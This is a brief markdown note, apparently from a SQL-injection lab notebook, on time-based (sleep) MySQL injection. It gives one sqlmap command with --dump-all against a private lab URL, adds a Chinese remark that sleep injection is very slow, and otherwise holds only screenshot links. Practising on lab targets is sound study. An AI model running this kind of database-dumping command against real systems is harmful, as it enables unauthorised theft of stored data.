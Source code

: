 ![image-20250904191129001](images/image-20250904191129001.png)



# MySQL sleep SQLi

```
python sqlmap.py -u http://192.168.126.138/sqli/04.php?id=1 --dump-all
睡觉注入特别慢
```

![image-20250904191333732](images/image-20250904191333732.png)
